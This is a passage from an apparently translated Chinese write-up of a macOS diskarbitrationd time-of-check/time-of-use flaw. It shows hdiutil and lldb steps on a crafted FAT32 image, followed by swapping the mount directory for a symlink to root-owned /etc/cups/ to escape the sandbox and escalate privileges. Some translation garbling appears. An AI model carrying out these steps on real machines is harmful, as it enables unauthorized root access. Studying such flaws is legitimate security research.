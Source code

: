 1. 打开dos.dmg文件，加载磁盘映像，然后使用umount命令卸载自动挂载的卷' / Volumes/DISK' 。这会产生一个可供diskarbitrationd使用的磁盘设备。  
  
1. 如果使用diskutil list命令检查磁盘列表，**disk5**可以看到添加了一个名为的新设备。disk5是由FDisk分区方案组成的10.5MB磁盘映像，里面的disk5s1分区以DOS_FAT_32格式存在。  
  
1. hdiutil attach -mountpoint mnt /dev/disk5s1执行命令将disk5s1分区挂载到mnt目录。  
  
```
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = breakpoint 2.1
    frame #0: 0x00000001aa59bc50 libsystem_sandbox.dylib`sandbox_check_by_audit_token
libsystem_sandbox.dylib`sandbox_check_by_audit_token:
-> 0x1aa59bc50 <+0>: pacibsp 
    0x1aa59bc54 <+4>: sub sp, sp, #0xb0
    0x1aa59bc58 <+8>: stp x20, x19, [sp, #0x90]
    0x1aa59bc5c <+12>: stp x29, x30, [sp, #0xa0]
Target 0: (diskarbitrationd) stopped.
(lldb) finish
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = step out
    frame #0: 0x00000001005463b8 diskarbitrationd`___lldb_unnamed_symbol712 + 1488
diskarbitrationd`___lldb_unnamed_symbol712:
-> 0x1005463b8 <+1488>: mov w8, #0x9 ; =9 
    0x1005463bc <+1492>: movk w8, #0xf8da, lsl #16
    0x1005463c0 <+1496>: str x8, [sp, #0x30]
    0x1005463c4 <+1500>: mov x20, x19
Target 0: (diskarbitrationd) stopped.
(lldb) b CFRelease
Breakpoint 3: where = CoreFoundation`CFRelease, address = 0x000000019e462edc
(lldb) c
Process 113 resuming
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = breakpoint 3.1
    frame #0: 0x000000019e462edc CoreFoundation`CFRelease
CoreFoundation`CFRelease:
-> 0x19e462edc <+0>: pacibsp 
    0x19e462ee0 <+4>: stp x20, x19, [sp, #-0x20]!
    0x19e462ee4 <+8>: stp x29, x30, [sp, #0x10]
    0x19e462ee8 <+12>: add x29, sp, #0x10
Target 0: (diskarbitrationd) stopped.
(lldb) finish
```  
  
  
在此阶段，disk Arbitrationd将完成工作，并且将到达您设置的断点。  
  
**4. 创建和替换符号链接**  
  
接下来，CFRelease前往呼叫点。该位置对应于沙箱逃逸和权限升级验证过程的结束。此时，您已经通过了disk Arbitrationd执行的所有验证，因此您现在可以用指向 root 拥有的位置的符号链接替换您正在使用的目录。  
  
```
tree@forest ~ % rm -rf mnt
tree@forest ~ % ln -s /etc/cups/ mnt
```  
  